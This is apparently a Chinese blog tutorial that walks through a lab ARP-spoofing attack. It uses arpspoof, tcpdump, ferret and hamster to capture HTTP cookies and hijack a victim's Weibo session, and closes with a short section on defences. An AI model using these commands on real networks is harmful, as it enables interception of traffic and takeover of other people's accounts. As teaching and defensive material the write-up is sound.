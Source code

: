 ```yaml
---
layout:     post
title:      "内网安全之 ARP 欺骗"
subtitle:   "内网姿势系列"
date:       2016-06-23 21:32 +0800
author:     "gsfish"
header-img: "img/post-bg-kali.jpg"
tags:
    - 内网安全
    - 渗透
---
```



# 0x00 实验环境

```
网关：
192.168.1.1
 
攻击者：  
IP: 192.168.1.110
OS: Kali Linux (VirtualBox)

靶机：
IP: 192.168.1.105
OS: Windows 10 Home
```


# 0x01 基本思路

1. 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
2. 等待目标用户进行登陆操作，抓取 HTTP 数据包
3. 解析所抓取的数据包，并提取出 Cookie
4. 将 Cookie 导入浏览器，从而实现劫持目标用户的会话


# 0x02 工具准备

## 安装 ferret

除 `ferret` 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 `ferret`（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 `hamster` 是由一个名叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

增加包管理器对 32 位程序的支持，更新源并安装工具：

```
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install ferret-sidejack
```

## 开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```


# 0x03 攻击过程

## 进行 ARP 欺骗

```
sudo arpspoof -i eth0 -t 192.168.1.105 192.168.1.1
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.105

说明：
-i  所用的网卡设备名
-t  攻击目标的 IP（由于是单向的，所以需要开启两个）
```

![01.png](/img/lan-attack-cookie-hijack/01.png)

![02.png](/img/lan-attack-cookie-hijack/02.png)

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符：

`arp -a`

![03.png](/img/lan-attack-cookie-hijack/03.png)

可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

## 抓取 HTTP 数据包

```
sudo tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap

说明：
-i  所用的网卡设备名
-w  生成数据包的名称
tcp port 80 and host 192.168.1.105  抓取通过 192.168.1.105:80 的数据包
```

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 `ferret` 来解析一下。

## 解析 cookie.cap

```
ferret -r cookie.cap

说明：
-r  读取数据包并将其解析，生成 hamster.txt
-i  所用的网卡设备名（其实 ferret 也有抓包的功能）
```

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

## 加载 Cookie 模拟登陆

直接运行即可：

```
hamster
```

`hamster` 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 `hamster` 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中：

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`：

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面：

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦：

![09.png](/img/lan-attack-cookie-hijack/09.png)


# 0x04 防御 ARP 欺骗

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)


# 参考文献

1. [Anka9080. 『局域网安全』利用ARP欺骗劫持Cookie[EB/OL]. http://www.cnblogs.com/anka9080/p/arpspoof.html](http://www.cnblogs.com/anka9080/p/arpspoof.html)

